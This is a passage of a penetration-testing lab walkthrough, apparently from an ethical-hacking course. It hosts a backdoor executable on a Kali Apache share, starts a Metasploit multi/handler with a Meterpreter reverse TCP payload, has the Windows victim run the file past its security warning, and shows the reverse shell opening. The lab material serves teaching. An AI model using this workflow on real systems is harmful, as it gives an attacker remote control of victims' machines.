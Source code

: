 Change the ownership of that folder to **www-data**:<br>
`chown -R www-data:www-data /var/www/html/share/`

_To see the configuration of sharing options type:_<br>
`ls -la /var/www/html/ | grep share`
```
drwxr-xr-x 2 www-data www-data  4096 Dec 18 20:52 share
```

Now copy the malicious file to the shared location:<br>
`cp /root/Desktop/Test.exe /var/www/html/share/`

Start the apache service to run the http server:<br> `service apache2 start` 

## Perform Exploitation
Start the Metasploit Framework by typing:

`msfconsole`

Select the **multi/handler** and set the payload to **meterpreter/reverse_tcp**:

`use exploit/multi/handler`<br>
`set payload windows/meterpreter/reverse_tcp`

Set the **LHOST** to the Kali IP address:

`set LHOST 10.0.2.42`

Start the exploit on background:

`exploit -j -z`

```
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.0.2.42:4444 
```

## Run the Exploit
Switch to the **Windows 10** machine, launch the **browser** and type the URL:

`http://10.0.2.42/share/` _(Change to the IP address of your your Kali)._

![share-exploit](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/b65a2a5858140f439e8de89c919d452668346884/shareexploit.png)

Click **Exploit.exe** to download the backdoor file. Once the file is downloaded navigate to the download location and open the file to execute.

If an **Open File - Security Warning** window appears, click **Run**.

![Sec Warning](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/87089f69512685222b66d10ab10832f0382538f9/securityWarningWin.png)

Switch back to the Kali machine. Meterpreter session has been successfully opened, as shown below:

```
[*] Sending stage (180291 bytes) to 10.0.2.15
[*] Meterpreter session 1 opened (10.0.2.42:4444 -> 10.0.2.15:49804) at 2019-12-18 21:04:09 -0500
```
